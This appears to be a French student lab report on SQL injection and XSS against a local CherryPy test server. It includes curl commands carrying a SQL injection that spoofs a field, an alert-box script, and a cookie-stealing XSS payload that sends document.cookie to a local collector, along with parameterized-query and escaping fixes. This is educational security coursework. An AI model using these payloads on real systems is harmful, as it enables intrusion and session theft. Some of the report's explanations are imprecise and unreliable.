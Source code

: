 # Rendu "Injection"

## Binome

AMEVIGBE Yao Isidore
Nom, Prénom, email: ___


## Question 1

* Quel est ce mécanisme?
Ce mécanisme est la vérification de la chaîne de caractères à insérer par une regex. 
qui vérifie si la chaîne de caractère ne contient pas de caractères spéciaux.

* Est-il efficace? Pourquoi? 

Non ! car une injection peut probablement contenir des conditions. 
Par ailleurs sur le navigateur web on peut toute fois désactiver le javascript pour faire des injections **sql**

## Question 2

* Votre commande curl

Voici la commande curl pour pouvoir envoyer des requêtes en POST: 

```sh 
$ curl -X POST  -d "chaine=<la chaine à insérer>&submit=OK"  http://localhost:8080/
```

Exemple d'insertion
===================

```sh 
$ curl -X POST  -d "chaine=2 ; SELECT * from /submit=OK"  http://localhost:8080/
```

Insertion
=========

```sh 
$ <p>
Liste des chaines actuellement insérées:
<ul>
<li>isi envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res80 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res90 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>2  envoye par: 127.0.0.1</li>

``` 

On voit avec la dernière ligne que la donnée a bien été inséré.

## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbitraire dans le champ 'who'

```sh 
$ curl -X POST  -d "chaine=hack','192.152.145.18') #"  http://localhost:8080/
```

* Expliquez comment obtenir des informations sur une autre table
Pour obtenir des informations sur une autre table on peut réaliser cette commande en la combinant avec une autre en utilisant **AND** puisque la première requête sera exécuté. Si on avait utilisé un **OR** cela ne fonctionneraît pas.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Implémentation 
==============

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (post["chaine"], cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(row[0] + " envoye par: " + row[1])

        cursor.close()
        return '''
```

Explication
===========

Pour le corriger on a utilisé une requête paramétré composé de deux chaînes de caractères. 
Le premier spécifiant la colonne **post["chaine"]** et la colonne ****cherrypy.request.remote.ip**

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```sh 
$ curl -X POST  -d "chaine=<script>alert(\"hello\")</script>"  http://localhost:8080/
```

* Commande curl pour lire les cookies
```sh 
$ curl -X POST  -d "chaine=<script>document.location=\"http://localhost:8181?chaine=\".concat(document.cookie)</script>"  http://localhost:8080/
```

Pour récupérer les cookies il suffit de lancer la commande curl vers un serveur sur le port 8181. On peut même evaluer le cookie et lui passer cela en paramètre.
## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Implémentation
==============

Pour eviter les failles **xss** il faut échapper les données lors de l'insertions et lors de l'affichage. 
Lors de l'affichage car c'est en ce moment que les données sont exécutés par le navigateur et ainsi eviter que ces données soient transmises aux malveillants. 

Pour l'insertion un code javascript peut eventuellement exécuter des codes malveillants nottament pour supprimer des données dans la BDD en réalisant des requêtes.

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (escape(post["chaine"]), cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(escape(row[0]) + " envoye par: " + row[1])

        cursor.close()
        return '''
```
